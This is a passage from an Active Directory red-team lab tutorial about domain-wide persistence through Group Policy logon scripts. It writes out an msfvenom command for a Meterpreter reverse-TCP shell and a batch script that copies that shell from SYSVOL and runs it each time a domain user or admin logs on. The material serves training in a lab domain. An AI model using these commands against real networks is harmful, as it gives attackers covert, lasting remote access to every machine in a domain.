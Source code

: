 The last persistence technique we will review is persistence through Group Policy Objects (GPOs). At this point, you should be familiar with GPOs based on all the different enumeration, attack, and exploitation techniques we have discussed. However, GPOs are also excellent for deploying persistence.

Group Policy Management in AD provides a central mechanism to manage the local policy configuration of all domain-joined machines. This includes configuration such as membership to restricted groups, firewall and AV configuration, and which scripts should be executed upon startup. While this is an excellent tool for management, it can be targeted by attackers to deploy persistence across the entire estate. What is even worse is that the attacker can often hide the GPO in such a way that it becomes almost impossible to remove it.

### Domain Wide Persistence

The following are some common GPO persistence techniques:

* Restricted Group Membership - This could allow us administrative access to all hosts in the domain
* Logon Script Deployment - This will ensure that we get a shell callback every time a user authenticates to a host in the domain.

There are many different hooks that can be deployed. You can play around with GPOs to learn about other hooks. Since we already used the first hook, Restricted Group Membership, in the Exploiting AD room. Let's now focus on the second hook. While having access to all hosts are nice, it can be even better by ensuring we get access to them when administrators are actively working on them. To do this, we will create a GPO that is linked to the Admins OU, which will allow us to get a shell on a host every time one of them authenticates to a host.

### Preparation

Before we can create the GPO. We first need to create our shell, listener, and the actual bat file that will execute our shell. Let's start by generating a basic executable shell that we can use:

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > <username>_shell.exe`

Make sure to add your username to the binary name to avoid overwriting the shells of other users. Windows allows us to execute Batch or PowerShell scripts through the logon GPO. Batch scripts are often more stable than PowerShell scripts so lets create one that will copy our executable to the host and execute it once a user authenticates. Create the following script called `<username>_script.bat` on the AttackBox:

`copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\<username>_shell.exe C:\tmp\<username>_shell.exe && timeout /t 20 && C:\tmp\<username>_shell.exe`

You will see that the script executes three commands chained together with `&&.` The script will copy the binary from the SYSVOL directory to the local machine, then wait 20 seconds, before finally executing the binary.

We can use SCP and our Administrator credentials to copy both scripts to the SYSVOL directory:

![task8-terminal1](./images/task8-terminal1.png)
